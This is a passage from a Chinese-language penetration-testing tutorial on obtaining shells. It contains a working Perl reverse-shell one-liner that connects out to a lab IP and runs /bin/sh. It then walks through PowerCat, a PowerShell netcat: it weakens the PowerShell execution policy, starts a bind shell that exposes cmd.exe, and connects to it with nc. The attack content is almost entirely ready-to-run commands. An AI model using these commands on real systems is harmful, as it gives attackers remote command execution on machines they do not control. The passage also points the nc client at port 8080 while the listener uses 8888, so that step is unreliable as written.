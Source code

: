 客户端执行命令反弹 shell 给服务端：

```
perl -e 'use Socket;$i="192.168.2.12";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

参考文章：https://www.anquanke.com/post/id/87017

#### 3.3：PowerCat

PowerCat 可以说是 nc 的 Powershell 版本。

PowerCat 可以通过执行命令回到本地运行，也可以使用远程权限运行。

下载地址：https://github.com/besimorhino/powercat.git

（1）PowerCat 的下载

下载完成后，要想使用需要先导入模块：

```
Import-Module .\powercat.ps1

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tU5453CE8yPA39N9lJZ2NtEsN8lSIDLEzpLAfFA50UVaJmdOcjBcLHQ/640?wx_fmt=png)

  

报错是 Powershell 的权限问题，我们可以吧权限设置成 RemotoSigned，然后再导入模块：

```
Set-ExecutionPolicy RemoteSigned

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tKZYhzMJicHNONcywgPdQyNjd6oA29KoakJ12fkqb7YqicvjmdFQDPKag/640?wx_fmt=png)

  

（2）通过 nc 正向连接 PowerCat

在 Windows7 服务器上执行监听命令：

```
powercat -l -p 8888 -e cmd.exe -v

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3t4Xv4U5FQicf0JNAfoutXvtEyYG2edcUlDic65v5D2pbVIEAnIJzxaQQw/640?wx_fmt=png)

  

然后再 Kali 主机上执行命令：

```
nc 192.168.2.13 8080 -vv

```
